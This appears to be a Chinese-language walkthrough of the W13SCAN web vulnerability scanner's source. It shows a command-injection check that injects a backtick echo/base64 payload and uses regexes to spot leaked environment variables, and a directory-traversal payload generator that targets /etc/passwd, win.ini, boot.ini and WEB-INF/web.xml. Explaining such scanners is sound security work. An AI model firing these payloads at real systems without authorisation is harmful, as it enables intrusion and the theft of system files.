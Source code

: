 
```python
url_flag = {
    "set|set&set": [
        'Path=[\s\S]*?PWD=',
        'Path=[\s\S]*?PATHEXT=',
        'Path=[\s\S]*?SHELL=',
        'Path\x3d[\s\S]*?PWD\x3d',
        'Path\x3d[\s\S]*?PATHEXT\x3d',
        'Path\x3d[\s\S]*?SHELL\x3d',
        'SERVER_SIGNATURE=[\s\S]*?SERVER_SOFTWARE=',
        'SERVER_SIGNATURE\x3d[\s\S]*?SERVER_SOFTWARE\x3d',
        'Non-authoritative\sanswer:\s+Name:\s*',
        'Server:\s*.*?\nAddress:\s*'
    ],
    "echo `echo 6162983|base64`6162983".format(randint): [
        "NjE2Mjk4Mwo=6162983"
    ]
}
```

判断是否成功直接就响应中匹配回显  
在dnslog api中check函数里对 延迟进行了封装默认会延迟5s  



###### directory_traversal 路径穿越插件  
`W13SCAN/scanners/PerFile/directory_traversal.py`  

生成目录穿越的payload  

```python
def generate_payloads(self):
    payloads = []
    default_extension = ".jpg"
    payloads.append("../../../../../../../../../../../etc/passwd%00")
    payloads.append("/etc/passwd")
    if OS.LINUX in self.response.os or OS.DARWIN in self.response.os or conf.level >= 4:
        payloads.append("../../../../../../../../../../etc/passwd{}".format(unquote("%00")))
        payloads.append(
            "../../../../../../../../../../etc/passwd{}".format(unquote("%00")) + default_extension)
    if OS.WINDOWS in self.response.os:
        payloads.append("../../../../../../../../../../windows/win.ini")
        payloads.append("C:\\boot.ini")
        # if origin:
        #     payloads.append(dirname + "/../../../../../../../../../../windows/win.ini")
        payloads.append("C:\\WINDOWS\\system32\\drivers\\etc\\hosts")
    if WEB_PLATFORM.JAVA in self.response.programing:
        payloads.append("/WEB-INF/web.xml")
        payloads.append("../../WEB-INF/web.xml")
    return payloads
```

回显判断  
